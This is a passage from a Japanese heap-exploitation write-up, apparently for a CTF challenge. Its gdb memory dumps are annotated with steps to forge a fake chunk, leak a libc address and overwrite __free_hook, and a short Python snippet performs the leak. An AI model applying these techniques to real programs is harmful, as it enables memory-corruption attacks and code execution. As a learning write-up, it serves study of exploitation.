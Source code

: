 `0x000055555555aef0`近辺のメモリの状態は下記になっています。
```
0x55555555ae70:	0x000055555555acc0	0x000055555555b000
0x55555555ae80:	0x0000000000000020	0x0000000000000070
0x55555555ae90:	0x000055555555b030	0x0000555555559010
0x55555555aea0:	0xffffffff00000000	0xffffffff00000000
0x55555555aeb0:	0x000100010000ffff	0x0000000000000000
0x55555555aec0:	0x00000000fd929108	0x0000000000000000
0x55555555aed0:	0x000055555555b030	0x000055555555acf0
0x55555555aee0:	0x0000000000000000	0x0000000000000000　--> 0xf1を書いて偽のchunkを作成する。
0x55555555aef0:	0x0000000000000000	0x0000000000000071　--> このchunkのlibcアドレス(0x00007ffff7f8bc40)をリークさせる。
0x55555555af00:	0x00007ffff7f8bc40	0x000055555555ad50
0x55555555af10:	0xffffffffffffffff	0xffffffffffffffff
0x55555555af20:	0x0000000100000000	0x0000000000000000
0x55555555af30:	0x0000000093507296	0x0000000000000000
0x55555555af40:	0x0000000000000000	0x0000000000000000
0x55555555af50:	0x0000000000000000	0x0000000000000000
0x55555555af60:	0x0000000000000070	0x0000000000000080  --> この0x80サイズのchunkを書き換えて、__free_hookを書き換える。
0x55555555af70:	0x000055555555b220	0x0000555555559010
0x55555555af80:	0x0000000000000003	0x0000000000000000
0x55555555af90:	0x0000000000000003	0x0000000000000000
0x55555555afa0:	0x0000000000000001	0x0000000000000000
0x55555555afb0:	0x0000000000000000	0x0000000000000000
0x55555555afc0:	0x0000000000000000	0x0000000000000000
0x55555555afd0:	0x0000000000000000	0x0000000000000000
0x55555555afe0:	0x0000000000000000	0x0000000000000021
0x55555555aff0:	0x000055555555b20a	0x0000000000000000
```

下記を実行することで、libcのアドレス(`0x00007ffff7f8bc40`)を取得できます。
```python
Alloc(0xe0, "\n")
Alloc(0xe0, "A"*15+"\n")
View()
```
```
0x55555555aed0:	0x0000000000000000	0x0000000000000000
0x55555555aee0:	0x0000000000000000	0x00000000000000f1
0x55555555aef0:	0x4141414141414141	0x0a41414141414141
0x55555555af00:	0x00007ffff7f8bc40	0x000055555555ad50
                ~~~~~~~~~~~~~~~~~~
0x55555555af10:	0xffffffffffffffff	0xffffffffffffffff
0x55555555af20:	0x0000000100000000	0x0000000000000000
0x55555555af30:	0x0000000093507296	0x0000000000000000
0x55555555af40:	0x0000000000000000	0x0000000000000000
0x55555555af50:	0x0000000000000000	0x0000000000000000
0x55555555af60:	0x0000000000000070	0x0000000000000080
0x55555555af70:	0x000055555555b220	0x0000555555559010
0x55555555af80:	0x0000000000000003	0x0000000000000000
```
